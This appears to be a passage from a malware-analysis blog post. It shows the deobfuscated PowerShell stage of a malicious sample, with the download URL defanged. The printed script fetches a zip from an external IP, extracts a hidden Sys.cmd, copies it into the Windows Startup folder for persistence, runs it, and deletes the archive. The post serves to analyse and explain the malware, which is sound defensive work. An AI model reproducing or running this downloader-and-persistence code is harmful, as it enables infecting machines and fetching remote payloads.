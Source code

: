 If you dump the long string into Powershell you'll get

![Final Payload](/assets/images/posts/powershell/RaggedUnwittingPinemarten.png)

After cleaning that all up you'll get the following Powershell code.

**Note:** URL is defanged for safety purposes.
{: .notice--warning}

```powershell
$Mps = "C:\User"
New-Item -ItemType Directory -Force -Path $Mps | Out-Null

$cmdxx = "C:\User\Sys.cmd"
$url2 = 'hXXp://35[.]163[.]204[.]167/esfsdghfrzeqsdffgfrtsfd[.]zip'
$dir3 = $Mps + '\xxrrffftttbbb.zip'

$client = new-object System.Net.WebClient
$client.DownloadFile($url2,$dir3);

(new-object -com shell.application).namespace($Mps)
    .CopyHere((new-object -com shell.application).namespace($dir3).Items(),4 + 16) | Out-Null

$xvwe = 'Sys.cmd'
$zz=Get-Item $cmdxx
$zz.Attributes+="Hidden,System"

$startup = [System.Environment]::GetFolderPath("Startup") + "\" + $xvwe
Copy-Item $cmdxx $startup  | Out-Null

[System.Threading.Thread]::Sleep(3000)
& $cmdxx
remove-item $dir3 | Out-Null
```
